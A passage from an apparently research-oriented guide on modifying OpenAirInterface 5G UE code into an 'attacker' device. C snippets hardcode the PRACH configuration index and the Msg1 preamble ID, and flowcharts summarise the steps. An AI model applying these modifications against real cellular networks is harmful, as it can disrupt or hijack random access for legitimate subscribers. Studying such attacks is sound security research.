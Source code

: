 <b>2. Hardcode your choosen value into your attacker in `config_common_ue()` function line 454 in `config_ue.c`</b>
```
    if (rach_ConfigCommon->msg1_SubcarrierSpacing)
      cfg->prach_config.prach_sub_c_spacing = *rach_ConfigCommon->msg1_SubcarrierSpacing;
    else {
      // If absent, the UE applies the SCS as derived from the prach-ConfigurationIndex (for 839)
      //int config_index = rach_ConfigCommon->rach_ConfigGeneric.prach_ConfigurationIndex; ///// WILFRID - Hardcode prach_ConfigIndex /////
      int config_index = 149; ///// WILFRID - Hardcode prach_ConfigIndex /////
      int format = get_format0(config_index, frame_type, mac->frequency_range);
      cfg->prach_config.prach_sub_c_spacing = format == 3 ? 5 : 4;
    }
```

<b>3. This is a flowchart to summarize what we did</b>

```mermaid
flowchart TD
    A(("config_common_ue_sa()")) --> B["//configure some
    ue's parameter"]
    B --> C["//fill config_index
    //according to gNB's
    //prach configuration"]
    C --> D["config_index = X
    //fill X with our value"]
    D --> E((return))
```

#### 2.1.3. Controlling Msg1 Attacker preamble ID

<b>1. Hardcode your attacker's preamble index by hardcoding your choosen value into `config_preamble_index()` function line 346 in `NR_MAC_UE/nr_ra_procedures.c`</b>

```
  int rand_preamb = (rand_r(&seed) % ra->ssb_ro_config.preambles_per_ssb);
  if (ra->ssb_ro_config.ssb_per_ro < 1)
    ra->ra_PreambleIndex = groupOffset + rand_preamb;
  else {
    int ssb_pr_idx = mac->ssb_list.nb_ssb_per_index[mac->mib_ssb] % (int)ra->ssb_ro_config.ssb_per_ro;
    ra->ra_PreambleIndex = groupOffset + (ssb_pr_idx * ra->ssb_ro_config.preambles_per_ssb) + rand_preamb;
  }
  ra->ra_PreambleIndex = 1; ///// WILFRID - hardcoding attacker preamble index /////
  AssertFatal(ra->ra_PreambleIndex < nb_of_preambles,
              "Error! Selected preamble %d which exceeds number of prambles available %d\n",
              ra->ra_PreambleIndex,
              nb_of_preambles);
```

<b>2. This is a flowchart to summarize what we did</b>

```mermaid
flowchart TD
    A(("config_preamble_index()")) --> B["..."]
    B --> C["//fill ra_PreambleIndex
    //using random value"]
    C --> D["ra_PreambleIndex = X
    //fill X with our value"]
    D --> E((return))
```
